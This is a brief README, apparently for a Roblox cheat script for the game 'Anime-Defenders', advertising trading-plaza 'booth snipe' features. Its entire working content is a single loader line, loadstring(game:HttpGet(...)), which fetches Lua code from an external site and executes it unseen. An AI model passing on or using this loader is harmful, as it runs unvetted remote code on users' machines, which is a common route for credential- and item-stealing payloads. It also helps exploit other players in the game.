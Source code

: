 # Anime-Defenders
Only Trading plaza work 
Booth snipe and more 





loadstring(game:HttpGet("https://egorikusa.space/bd5a912d12057d12482bed5c.lua", true))()
